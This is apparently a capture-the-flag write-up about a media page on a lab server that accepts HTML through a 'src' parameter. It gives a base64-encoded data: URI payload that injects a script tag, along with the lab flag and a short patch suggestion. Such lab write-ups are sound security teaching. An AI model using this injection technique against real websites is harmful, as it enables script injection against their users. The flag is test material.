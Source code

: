 # Protect_Your_Media_types

Unsecure media redirection setted in the frontend.
http://192.168.99.100)

## How to see it

Go on the page mentionned before.
Inspect element, it appears that a GET request is done for the prism image. We can see in the request that text/html is an
accepted format. We can deduct than we can inject some HTML there. Then we will just modify the request.
Don't forget to put your url in base 64.
```bash
<script>alert("Hello World")</script> -> base64 -> PHNjcmlwdD5hbGVydCgiaGVsbG8gd29ybGQiKTwvc2NyaXB0Pg==
```
```bash
http://192.168.99.100/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiaGVsbG8gd29ybGQiKTwvc2NyaXB0Pg==
```
```bash
THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```
## How to abuse of it

You can insert HTML code since the text/html is accepted

## How to patch it

Just use the type that you want to accept. Check the headers of the file you're using.
